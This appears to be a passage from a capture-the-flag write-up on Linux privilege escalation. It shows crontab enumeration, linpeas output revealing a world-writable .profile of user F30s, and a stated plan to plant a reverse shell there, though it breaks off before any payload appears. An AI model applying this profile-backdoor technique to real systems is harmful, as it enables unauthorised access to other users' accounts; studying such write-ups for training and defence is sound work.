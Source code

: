 ### Initial Access

And we get a shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to F30s

`cat /etc/crontab` - there is a job running as the `F30s` user every minute.

```bash
*  *    * * *   F30s    bash -lc 'cat /home/F30s/health_check'
```

We ran `linpeas.sh`, and noticed something interesting in the output :

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/home/F30s/.profile
/home/ayham
/run/lock
/tmp
/tmp/linpeas.sh
/var/tmp
```

we see that we can write into the `/home/F30s/.profile` file.

the `.profile` file is executed whenever a user (`F30s` in this case) logs into their account, since we have write access to it let's add a reverse shell inside and wait hoping `F30s` will login and the profile file will get executed :
